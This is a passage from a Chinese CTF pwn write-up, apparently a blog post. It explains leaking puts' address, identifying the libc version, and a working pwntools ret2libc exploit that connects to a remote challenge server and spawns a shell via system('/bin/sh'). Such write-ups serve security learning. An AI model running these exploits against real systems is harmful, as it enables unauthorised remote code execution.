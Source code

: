输出了puts函数的真实地址
ps：这里要remote过去，否则输出的地址会不一样

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005133520774.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)

可以通过后三位判断libc的版本
[libcSearch](https://libc.blukat.me/)

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201005134105795.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1lhbmdaaVRyaWNr,size_16,color_FFFFFF,t_70#pic_center)
知道这些信息之后
exp：

```python
from pwn import *
#context.log_level = 'debug'

p = remote('111.231.70.44',28063)
#p = process('./stack1')

elf = ELF('./stack1')
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
main_addr = elf.symbols['main']

payload = "A"*13 + p32(puts_plt) + p32(main_addr) + p32(puts_got)

p.sendline(payload)

p.recvuntil('\n\n')

get_addr = u32(p.recv(4))

print(hex(get_addr))

libcbase = get_addr - 0x067360
system_addr = libcbase + 0x03cd10
bin_sh = libcbase + 0x17b8cf
payload = flat(['A'*13,system_addr,'AAAA',bin_sh])

p.sendline(payload)

p.interactive()
```

## 4.pwn04

### canary

先checksec

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020100514433593.png#pic_center)
